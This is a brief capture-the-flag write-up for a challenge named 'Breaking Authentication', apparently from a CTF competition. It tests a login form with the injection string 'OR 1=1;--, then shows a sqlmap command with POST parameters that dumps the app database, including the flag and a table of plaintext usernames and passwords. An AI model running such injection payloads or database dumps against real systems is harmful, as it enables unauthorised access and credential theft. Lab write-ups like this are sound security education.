

# Breaking Authentication (750 pts)



At first, I tried `'OR 1=1;--` and I got an error. So this is definitely **SQL Injection** and it uses **MySQL**

Next, I just need to use `sqlmap` to dump the flag :D

```sh
sqlmap -u 'http://23.179.17.40:58001' --method=POST --data="username=123&password=123&login=Login" --dbs --dump
Database: app
Table: secrets
[1 entry]
+--------+-----------------------+
| name   | value                 |
+--------+-----------------------+
| flag   | CIT{36b0efd6c2ec7132} |
+--------+-----------------------+

Database: app
Table: users
[4 entries]
+---------+----------+--------------+----------+
| email   | fullname | password     | username |
+---------+----------+--------------+----------+
| <blank> | <blank>  | m1n3r41s     | hank     |
| <blank> | <blank>  | 9f3IC3uj9^zZ | admin    |
| <blank> | <blank>  | M4GN375      | jesse    |
| <blank> | <blank>  | b4byb1u3     | walter   |
+---------+----------+--------------+----------+
```

`Flag: CIT{36b0efd6c2ec7132}`
